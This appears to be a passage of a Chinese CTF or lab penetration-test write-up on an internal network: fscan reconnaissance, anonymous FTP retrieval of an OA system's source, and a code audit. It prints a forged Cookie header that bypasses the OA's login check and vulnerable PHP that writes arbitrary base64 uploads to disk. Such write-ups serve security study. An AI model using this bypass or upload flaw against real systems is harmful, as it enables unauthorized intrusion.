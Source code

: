 
![image-20240903132146306](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240903132146306.png?imageSlim)

上传fscan扫描该网段，得到：172.22.10.28

![image-20240903140751296](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240903140751296.png?imageSlim)

### 172.28.23.26- 新翔 OA

在之前的fscan扫描结果中发现有ftp可匿名登陆

![image-20240903133015294](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240903133015294.png?imageSlim)

ftp连过去

![image-20240903142738563](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240903142738563.png?imageSlim)

```
get OASystem.zip
```

从`main.php`开始进行代码审计，开头引入了`db.php`和`checklogin.php`

checklogin.php中

```php
<?php
function islogin(){
   if(isset($_COOKIE['id'])&&isset($_COOKIE['loginname'])&&isset($_COOKIE['jueseid'])&&isset($_COOKIE['danweiid'])&&isset($_COOKIE['quanxian'])){
	   if($_COOKIE['id']!=''&&$_COOKIE['loginname']!=''&&$_COOKIE['jueseid']!=''&&$_COOKIE['danweiid']!=''&&$_COOKIE['quanxian']!=''){
	       return true;
	   }
	    else {
	      return false;
	   }
    }
    else {
	    return false;
     }
}
?>
```

`Cookie: id=1;loginname=1;jueseid=1;danweiid=1;quanxian=1` 直接登录main.php

![image-20240903143437902](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240903143437902.png?imageSlim)

源码根目录下还有一个`uploadbase64.php`

```php
<?php
/**
 * Description: PhpStorm.
 * Author: yoby
 * DateTime: 2018/12/4 18:01
 * Email:logove@qq.com
 * Copyright Yoby版权所有
 */
$img = $_POST['imgbase64'];
if (preg_match('/^(data:\s*image\/(\w+);base64,)/', $img, $result)) {
    $type = ".".$result[2];
    $path = "upload/" . date("Y-m-d") . "-" . uniqid() . $type;
}
$img =  base64_decode(str_replace($result[1], '', $img));
@file_put_contents($path, $img);
exit('{"src":"'.$path.'"}');
```
